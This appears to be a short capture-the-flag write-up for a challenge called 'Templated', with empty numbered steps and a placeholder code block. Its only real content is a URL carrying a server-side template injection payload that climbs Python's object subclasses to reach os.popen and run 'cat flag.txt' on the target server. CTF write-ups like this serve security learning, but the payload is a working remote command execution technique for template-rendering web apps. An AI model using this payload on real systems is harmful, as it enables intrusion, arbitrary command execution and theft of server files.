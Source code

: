 # Templated #
Solver: Tal Baraz
---------------
1.
2.
```python
print("code here")
```


http://159.65.18.5:32067/{{"".__class__.__base__.__subclasses__()[186].__init__.__globals__['sys'].modules['os'].popen(%22cat%20flag.txt%22).read()}}
